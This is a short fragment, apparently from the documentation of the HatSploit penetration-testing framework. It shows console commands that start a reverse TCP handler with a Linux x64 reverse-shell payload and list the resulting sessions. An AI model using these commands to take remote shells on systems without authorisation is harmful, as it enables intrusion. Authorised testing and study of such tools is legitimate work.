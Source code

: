 # HatSploit

```assembly
sessions --auto-interaction off

use exploit/generic/handler/reverse_tcp
    set payload linux/x64/shell_reverse_tcp
run

sessions -l
```
